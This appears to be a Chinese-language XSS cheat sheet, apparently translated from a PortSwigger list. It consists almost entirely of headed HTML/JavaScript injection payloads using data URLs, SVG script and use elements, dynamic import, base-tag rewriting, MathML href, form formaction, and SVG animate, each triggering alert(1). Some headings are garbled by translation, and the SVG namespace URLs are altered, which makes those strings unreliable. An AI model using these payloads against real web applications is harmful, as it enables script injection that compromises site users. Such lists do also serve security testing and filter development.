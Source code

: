 #### **脚本 src 内的数据协议**

```
<script src="data:text/javascript,alert(1)"></script>
```

#### **没有结束脚本标签的 SVG 脚本 href 属性**

```
<svg><script href="data:text/javascript,alert(1)" />
```

#### **SVG 使用元素 Chrome/Firefox**

```
<svg><use href="data:image/svg+xml,<svg id='x' xmlns='http://www.anonymous.org/2000/svg' xmlns:xlink='http://www.anonymous.org/1999/xlink' width='100' height='100'><a xlink:href='javascript:alert(1)'><rect x='0' y='0' width='100' height='100' /></a></svg>#x"></use></svg>
```

#### **导入数据 URL 为**的语句

```
<script>import('data:text/javascript,alert(1)')</script>
```

#### **使用 JavaScript 协议重写相对 URL 的基本标签**

```
<base href="javascript:/a/-alert(1)///////"><a href=../lol/page.html>test</a>
```

#### MathML 使得任何标签都可以点击

```
<math><x href="javascript:alert(1)">blah
```

#### **按钮和动作**

```
<form><button formaction=javascript:alert(1)>XSS
```

#### **输入和形成动作**

```
<form><input type=submit formaction=javascript:alert(1) value=XSS>
```

#### **形式和动作**

```
<form action=javascript:alert(1)><input type=submit value=XSS>
```

#### **用关键时间和多值制作标签动画**

```
<svg><animate xlink:href=#xss attributeName=href dur=5s repeatCount=indefinite keytimes=0;0;1 values="https://portswigger.net?&semi;javascript:alert(1)&semi;0" /><a id=xss><text x=20 y=20>XSS</text></a>
```
